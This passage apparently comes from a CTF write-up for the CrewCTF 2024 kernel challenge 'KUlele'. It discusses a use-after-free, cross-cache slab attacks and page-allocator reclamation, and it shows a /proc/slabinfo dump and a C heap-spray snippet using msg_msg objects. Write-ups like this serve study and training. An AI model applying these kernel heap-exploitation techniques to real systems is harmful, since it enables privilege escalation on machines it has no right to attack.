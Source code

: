 
In summary, we may need to allocate large objects to make sure we own the whole slab to perform `cross-cache`. This may require a page allocator then if we refill with our usual small objects (less than a page), we may not use the `show` and `edit` in the challenge. `cross-cache` may make this challenge harder. However, considering one UAF is enough for exploitation, I ignore the hardness.


# 0x03 Solutions

In this section, we gonna provide a high-level plan to exploit with the limits talked about in the previous section. 

```sh
kmalloc-8k            16     16   8192    4    8 : tunables    0    0    0 : slabdata      4      4      0
kmalloc-4k            32     32   4096    8    8 : tunables    0    0    0 : slabdata      4      4      0
kmalloc-2k           160    160   2048   16    8 : tunables    0    0    0 : slabdata     10     10      0
kmalloc-1k           416    416   1024   16    4 : tunables    0    0    0 : slabdata     26     26      0
kmalloc-512          368    368    512   16    2 : tunables    0    0    0 : slabdata     23     23      0
kmalloc-256          576    576    256   16    1 : tunables    0    0    0 : slabdata     36     36      0
kmalloc-192          441    441    192   21    1 : tunables    0    0    0 : slabdata     21     21      0
kmalloc-128          448    448    128   32    1 : tunables    0    0    0 : slabdata     14     14      0
kmalloc-96          2394   2394     96   42    1 : tunables    0    0    0 : slabdata     57     57      0
kmalloc-64          2816   2816     64   64    1 : tunables    0    0    0 : slabdata     44     44      0
kmalloc-32          1874   2560     32  128    1 : tunables    0    0    0 : slabdata     20     20      0
kmalloc-16          1280   1280     16  256    1 : tunables    0    0    0 : slabdata      5      5      0
kmalloc-8           2560   2560      8  512    1 : tunables    0    0    0 : slabdata      5      5      0
```

On the attack kernel, I dumped the content of `/proc/slabinfo` and found that if we use slab allocator, we can only use `kmalloc-8k` and `kmalloc-4k` if we don't use other `GFP_KERNEL` objects. (I also present a method using `GFP_KERNEL` objects and attack with `cross-cache` [here][1]). But it's still hard to do cross-cache for different order slabs. However, there is no size limit for the `kmalloc`, which means we are allowed to trigger the page allocation if we pass a number more than 0x8(not tested, 0x8 worked for this challenge) pages. As we know, the page-allocated pages can be retrieved by slub allocator!

```c
    for(int i = 0 ; i < 0x8; i++)
        add(0x8000);
    for(int i = 0 ; i < 0x8; i++)
        del(i);
    for( int i = 0 ; i < 0x100 ;i ++)
    {
        memcpy(trash,p64(0xdead000+i),8);
        msgSend(mids[i],0x7d0,trash);
    }
```


[0]: https://github.com/sajjadium/ctf-archives/tree/0610daa3bdd02bc9056b84fdd69f96132ce27c2f/ctfs/CrewCTF/2024/pwn/KUlele
[1]: TBD